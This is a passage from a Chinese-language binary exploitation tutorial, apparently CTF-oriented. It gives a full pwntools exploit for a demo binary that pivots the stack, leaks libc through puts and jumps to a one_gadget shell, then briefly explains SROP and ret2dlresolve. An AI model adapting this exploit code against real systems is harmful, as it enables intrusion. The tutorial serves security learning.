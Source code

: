 最终以上 demo 在 `libc2.31ubuntu9.9` 下的利用脚本如下

```plain
from pwn import*
context(arch='amd64',log_level='debug')
io = process('./stp')
elf = ELF('./stp')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context(arch='amd64',log_level='debug')
read = 0x4011DF
bss=elf.bss()+0x100
main=0x4011BD
rdi=0x401273
puts_got=0x404018 
puts_addr=0x401060
payload1 = b'a'*0x30+p64(bss)+p64(read)
payload2 = b'a'*0x30+p64(bss+0x30)+p64(read)
payload3 = p64(bss+0x40)+p64(rdi)+p64(puts_got)+p64(puts_addr)+p64(main)
io.send(payload1)
io.send(payload2)
io.send(payload3)
puts_real_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc_base = puts_real_addr - libc.sym["puts"]
r12 = libc_base+0x2f709
ogs=[0xe3afe,0xe3b01,0xe3b04]
og=libc_base+ogs[0]
payload1 = b'a'*0x30+p64(bss+0x100)+p64(read)
payload2 = b'a'*0x30+p64(bss+0x130)+p64(read)
payload3 = p64(bss+0x140)+p64(r12)+p64(0)+p64(og)
io.send(payload1)
io.send(payload2)
io.send(payload3)
io.interactive()
```

## 3.SROP

之前写过一次，随便提一嘴

其实就是一个叫 sigreturn 的系统调用的利用，整体来讲其实就是 ret2syscall 的变种，不过原理会更加复杂些

之前写的文章链接： [SROP](https://xz.aliyun.com/t/13198)

## 4.ret2dlresolve

这部分利用我只能讲出原理，利用的话可以看看这位师傅的文章：（没咋碰见过。。）

[ret2dlresolve 超详细教程 (x86&x64)-CSDN 博客](https://blog.csdn.net/qq_51868336/article/details/114644569)

具体而言就是 got 和 plt 表的延迟绑定机制

在调用函数 plt 表后，程序会使用函数\_dl\_runtime\_resolve(link\_map,reloc\_offset) 来对动态链接的函数进行重定位

这个函数会完成符号的解析，即将真实的 write 函数地址写入其 GOT 表对应的条目中，随后将控制器交给被解析的函数

这个攻击的目的，就是劫持程序对于符号的解析过程，让程序把原函数解析成我们想要执行函数及对应参数

### 应用范围：

程序中无输出函数，并且未开启 full relro

## 总结

本期我介绍的是更加复杂的 ret2 应用，是很多给了限制条件的程序的攻击良方，希望对想要深入学习二进制漏洞利用的师傅们有帮助
